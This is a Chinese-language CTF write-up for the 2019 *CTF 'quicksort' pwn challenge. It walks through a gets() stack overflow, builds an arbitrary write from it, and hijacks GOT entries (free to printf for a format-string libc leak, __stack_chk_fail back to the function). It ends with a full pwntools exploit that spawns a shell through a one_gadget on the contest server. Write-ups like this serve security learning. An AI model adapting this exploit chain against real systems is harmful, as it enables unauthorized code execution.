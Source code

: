 ```yaml
---
title: 2019-Starctf-quicksort
date: 2019-04-29 18:15:42
tags: [ctf, pwn, wp]
---
```


略有点脑洞的 Got hijack。

<!-- more -->

记录一下国际大赛上做出的第一道 pwn 题。

# Checksec

```bash
root@aa922ef5677a:~/tmp# checksec ./quicksort
[*] '/root/tmp/quicksort'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

# Analysis

```cpp
unsigned int func()
{
  char *num; // ebx
  char s; // [esp+Ch] [ebp-2Ch]
  char v3; // [esp+Dh] [ebp-2Bh]
  char v4; // [esp+Eh] [ebp-2Ah]
  char v5; // [esp+Fh] [ebp-29h]
  char v6; // [esp+10h] [ebp-28h]
  char v7; // [esp+11h] [ebp-27h]
  char v8; // [esp+12h] [ebp-26h]
  char v9; // [esp+13h] [ebp-25h]
  char v10; // [esp+14h] [ebp-24h]
  char v11; // [esp+15h] [ebp-23h]
  char v12; // [esp+16h] [ebp-22h]
  char v13; // [esp+17h] [ebp-21h]
  char v14; // [esp+18h] [ebp-20h]
  char v15; // [esp+19h] [ebp-1Fh]
  char v16; // [esp+1Ah] [ebp-1Eh]
  char v17; // [esp+1Bh] [ebp-1Dh]
  int sum; // [esp+1Ch] [ebp-1Ch]
  int i; // [esp+20h] [ebp-18h]
  int j; // [esp+24h] [ebp-14h]
  char *ptr; // [esp+28h] [ebp-10h]
  unsigned int v22; // [esp+2Ch] [ebp-Ch]

  v22 = __readgsdword(0x14u);
  v3 = 0;
  v4 = 0;
  v5 = 0;
  v6 = 0;
  v7 = 0;
  v8 = 0;
  v9 = 0;
  v10 = 0;
  v11 = 0;
  v12 = 0;
  v13 = 0;
  v14 = 0;
  v15 = 0;
  v16 = 0;
  v17 = 0;
  s = 0;
  sum = 0;
  puts("how many numbers do you want to sort?");
  __isoc99_scanf("%d", &sum);
  getchar();
  ptr = (char *)malloc(4 * sum);
  for ( i = 0; i < sum; ++i )
  {
    printf("the %dth number:", i + 1);
    gets(&s);
    num = &ptr[4 * i];
    *(_DWORD *)num = atoi(&s);
  }
  quicksort((int)ptr, 0, sum - 1);
  puts("Here is the result:");
  for ( j = 0; j < sum; ++j )
    printf("%d ", *(_DWORD *)&ptr[4 * j]);
  puts(&byte_8048AD2);
  free(ptr);
  return __readgsdword(0x14u) ^ v22;
}
```

程序要求输入一个数字 sum，然后再输入 sum 个数字，最后对这些数字快排之后得到结果。

这里漏洞很明显是有一个 `gets`，然而显然做不到直接 rop。在调试一段时间之后，发现了一个任意地址写的地方：

```
assassinq>> stack 20
0000| 0xffe85300 --> 0xffe8531c --> 0x0
0004| 0xffe85304 --> 0x1
0008| 0xffe85308 --> 0xffe85348 --> 0xffe85358 --> 0x0
0012| 0xffe8530c --> 0x80488c5 (mov    eax,DWORD PTR [ebp-0x1c])
0016| 0xffe85310 --> 0xffe85348 --> 0xffe85358 --> 0x0
0020| 0xffe85314 --> 0xf77b8010 (<_dl_runtime_resolve+16>:	pop    edx)
0024| 0xffe85318 --> 0xf7782864 --> 0x0
0028| 0xffe8531c --> 0x0
0032| 0xffe85320 --> 0x0
0036| 0xffe85324 --> 0x0
0040| 0xffe85328 --> 0x0
0044| 0xffe8532c --> 0x2
0048| 0xffe85330 --> 0x0
0052| 0xffe85334 --> 0x0
0056| 0xffe85338 --> 0x83d0008 --> 0x0
0060| 0xffe8533c --> 0x9838e200
0064| 0xffe85340 --> 0x1
0068| 0xffe85344 --> 0x0
0072| 0xffe85348 --> 0xffe85358 --> 0x0
0076| 0xffe8534c --> 0x80489e4 (mov    eax,0x0)
```

在读取数字的 `gets` 这里停下，查看栈的情况。这里的 `0x83d0008` 是程序中的 `ptr`，然后程序会将我们输入的字符串 `atoi` 之后，赋给 `ptr` 指向的地址。在中间还有一个地址存放剩余循环的次数。我们可以通过缓冲区溢出，一开始的数字为我们想要修改的内容，中间存放剩余循环次数，最后放我们要写的地址，就达到了任意地址写的目的。而 `canary` 又在下面，不会受到影响。

接下来就需要想办法泄漏，n132 学长提供了一个思路就是改成 `printf` 之后直接 format string。最后的思路是把 `free` 改成了 `printf`，然后泄漏 libc 上的地址。这里要注意的一点就是 `atoi` 返回的值是 `signed int`，如果字符串超过了四个字符，那就会返回 `0x7fffffff`，所以泄漏的时候找了第六个参数，`%6$p` 就不会超过 `signed int`。

```
0056| 0xff8348f8 --> 0x804a800 --> 0x7fffffff
```

`free` 完之后还需要写 `one_gadget`，所以这里想办法再跳回到 `func`。想要绕过 `canary` 肯定是不可能了，所以前面也利用了一次任意写，把 `__stack_chk_fail` 改成了 `func`，这样又能跳回来。

最后写 `one_gadget` 的时候又遇到了上面 `signed int` 的问题，这个无法避免了。想到的一个骚思路是用补码，传一个负数进去，就能写上 `one_gadget` 了。

# Exploit

```python
#!/usr/bin/env python
from pwn import *
context.log_level = 'debug'
context.arch = 'i386'
context.terminal = ['tmux', 'sp', '-h']
local = 0
if local:
	p = process('./quicksort')
	libc = ELF('/lib/i386-linux-gnu/libc.so.6')
else:
	p = remote('34.92.96.238', 10000)
	libc = ELF('./libc.so.6')
elf = ELF('./quicksort')
g = lambda x: next(elf.search(asm(x)))
gets_plt = elf.plt['gets']
gets_got = elf.got['gets']
puts_plt = elf.plt['puts'] # 0x8048560
puts_got = elf.got['puts'] # 0x804a02c
free_got = elf.got['free'] # 0x804a018
atoi_got = elf.got['atoi']
printf_got = elf.got['printf']
printf_plt = elf.plt['printf']
func = 0x08048816
buf = 0x0804a000 + 0x800 # 0x0804b000 - 0x100
stack_chk_fail_got = elf.got['__stack_chk_fail']
#gdb.attach(p, '''
#b *0x80489aa
#''')

def write(addr, val, t):
	payload = str(val)
	payload += (0x10 - len(payload)) * '\x00'
	payload += p32(t)
	payload += (0x1C - len(payload)) * '\x00'
	payload += p32(addr)
	p.recvuntil('number:')
	p.sendline(payload)

def overflow(addr, val, t):
	payload = str(val)
	payload += (0x10 - len(payload)) * '\x00'
	payload += p32(t)
	payload += (0x1C - len(payload)) * '\x00'
	payload += p32(addr) + '\x00' * 4
	p.recvuntil('number:')
	p.sendline(payload)

t = 2
p.recvuntil('sort?\n')
p.sendline(str(t))
write(free_got, printf_plt, 2)
write(stack_chk_fail_got, func, 2)
fmt = '%6$p'
overflow(buf, str(int(fmt[::-1].encode('hex'), 16)), 1)
p.recvuntil('0x')
libc_base = int(p.recv(8), 16) - 0x1b3864
success('libc_base = ' + hex(libc_base))
one_gadget = libc_base + 0x3ac62
success('one_gadget = ' + hex(one_gadget))
one_gadget_complement = -(0x100000000 - one_gadget)
success('one_gadget_complement = ' + hex(one_gadget_complement))

p.recvuntil('sort?\n')
p.sendline(str(t))
overflow(stack_chk_fail_got, one_gadget_complement, 1)
p.interactive()
```
